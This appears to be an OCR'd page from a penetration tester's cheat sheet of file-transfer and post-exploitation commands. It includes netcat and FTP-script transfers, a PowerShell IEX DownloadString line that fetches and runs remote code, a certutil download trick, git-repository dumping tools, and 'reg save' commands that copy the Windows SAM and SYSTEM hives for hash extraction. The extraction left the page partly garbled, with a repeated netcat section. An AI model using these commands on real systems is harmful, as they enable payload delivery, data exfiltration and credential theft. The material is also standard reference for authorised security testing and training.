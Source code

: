 # NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE> 

# SCP
scp <SOURCE_FILE> <USER>@<IP>:<DESTINATION_FILE>
Windows
# FTP 
echo open <IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET <FILE> >> ftp.txt echo bye>> ftp.txt
ftp -v -n -s:ftp.txt

# SMB
copy \\<IP>\<PATH>\<FILE> # Linux -> Windows
copy <FILE> \\<IP>\<PATH>\ # Windows -> Linux

# Powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('<URL>')
powershell "wget <URL>"

# Python
python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"

# CertUtil
certutil.exe -urlcache -split -f "<URL>"

# NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>

# CURL
curl <URL> -o <OUT_FILE>
GIT
Download .git
mkdir <DESTINATION_FOLDER>
./gitdumper.sh <URL>/.git/ <DESTINATION_FOLDER>
Extract .git content
mkdir <EXTRACT_FOLDER>
./extractor.sh <DESTINATION_FOLDER> <EXTRACT_FOLDER>
HASHES
Windows
reg save HKLM\SAM c:\SAM
reg save HKLM\System c:\System
